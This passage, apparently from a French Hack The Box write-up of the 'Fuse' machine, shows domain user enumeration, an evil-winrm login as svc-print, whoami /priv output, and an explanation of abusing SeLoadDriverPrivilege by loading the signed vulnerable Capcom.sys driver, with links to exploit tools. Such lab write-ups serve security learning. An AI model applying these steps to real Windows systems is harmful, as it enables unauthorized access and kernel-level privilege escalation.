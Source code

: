 ```bash
    user:[dandrews] rid:[0x1bbe]
    user:[mberbatov] rid:[0x1db1]
    user:[astein] rid:[0x1db2]
    user:[dmuir] rid:[0x1db3]
```

Notons que le compte `svc-scan` sera utile juste après.

# low priv shell

Je tente d'associer le mot de passe précédemment découvert au compte **svc-print** et c'est gagné :)

```bash
kali@kali:~/fuse$ evil-winrm -i 10.10.10.193 -u svc-print
Enter Password: 
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> 
```

# Priv esc

## SeLoadDriverPrivilege

Je vérifie d'abord mes privilèges. Il semblerait que je puisse charger un driver. **SeLoadDriverPrivilege** comme son nom le suggère octroie la capacité de charger n'importe quel driver. Et pour faire simple : être capable d'insérer du code dans le kernel  = game over.

 ```bash
*Evil-WinRM* PS C:\users\svc-print\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
 ```

## Capcom.sys Driver Exploit

Sur les systèmes 64bits, le Kernel Mode Code Signing (KMCS) est activé, et il est **impossible** de charger un driver **non signé**. Il s'agit là au mieux d'une fonctionnalité pour assurer l'intégrité du code, souvent présentée comme une fonction de sécurité. Rien empêche toutefois un attaquant de charger **un driver signé vulnérable** et de l'exploiter. L'intégrité du kernel serait compromise.


[^2]: https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
[^1]: https://github.com/tandasat/ExploitCapcom